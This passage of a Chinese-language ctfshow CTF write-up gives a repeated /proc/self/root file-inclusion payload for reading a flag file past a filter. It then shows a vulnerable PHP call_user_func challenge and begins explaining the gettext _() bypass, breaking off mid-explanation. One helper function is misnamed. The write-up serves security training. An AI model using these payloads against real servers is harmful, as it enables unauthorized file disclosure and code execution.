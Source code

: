 预期解：

这个题过滤了filter，所以换种方法

我们多次使用/proc/self/root来绕过

参考文章：https://www.anquanke.com/post/id/213235

payload：

```
file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

##  26.gettext拓展的使用

###  web128

代码

```php
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}
function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
} 
```

首先我们需要利用var_dump,但是check函数过滤了数字和字母

```
call_func_array()函数
将第一个参数作为回调函数，其余参数都作为函数来传进去
```

当开启了gettext()拓展后，我们使用gettext()

```
<?php
echo gettext("ctfshow");
//输出结果：ctfshow

echo _("ctfshow");
//输出结果：ctfshow
```
